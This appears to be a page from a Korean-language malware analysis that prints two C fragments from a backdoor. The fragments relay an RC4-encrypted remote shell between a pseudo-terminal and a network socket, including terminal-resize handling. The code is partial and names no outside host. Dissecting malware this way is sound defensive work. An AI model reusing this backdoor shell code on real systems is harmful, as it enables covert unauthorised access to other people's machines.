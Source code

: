 가상 터미널을 잡은 경우에는 해당 가상 터미널에 표준 입출력을 모두 붙이고 쉘을 실행한다  
<br>

---

```c
while (1) {
        FD_ZERO(&fds);
        FD_SET(pty, &fds);
        FD_SET(sock, &fds);
        if (select((pty > sock) ? (pty+1) : (sock+1),
                &fds, NULL, NULL, NULL) < 0)
        {
                break;
        }
        if (FD_ISSET(pty, &fds)) {
                int count;
                count = read(pty, buf, BUF);
                if (count <= 0) break;
                if (cwrite(sock, buf, count) <= 0) break;
        }
        if (FD_ISSET(sock, &fds)) {
                int count;
                unsigned char *p, *d;
                d = (unsigned char *)buf;
                count = cread(sock, buf, BUF);
                if (count <= 0) break;
```

쉘에서 주고 받는 데이터는 rc4로 암호화되어 전송된다  
<br>

---

```c
p = memchr(buf, ECHAR, count);
if (p) {
        unsigned char wb[5];
        int rlen = count - ((long) p - (long) buf);
        struct winsize ws;

        if (rlen > 5) rlen = 5;
        memcpy(wb, p, rlen);
        if (rlen < 5) {
                ret = cread(sock, &wb[rlen], 5 - rlen);
        }

        ws.ws_xpixel = ws.ws_ypixel = 0;
        ws.ws_col = (wb[1] << 8) + wb[2];
        ws.ws_row = (wb[3] << 8) + wb[4];
        ioctl(pty, TIOCSWINSZ, &ws);
        kill(0, SIGWINCH);

        ret = write(pty, buf, (long) p - (long) buf);
        rlen = ((long) buf + count) - ((long)p+5);
        if (rlen > 0) ret = write(pty, p+5, rlen);
} else
        if (write(pty, d, count) <= 0) break;
```
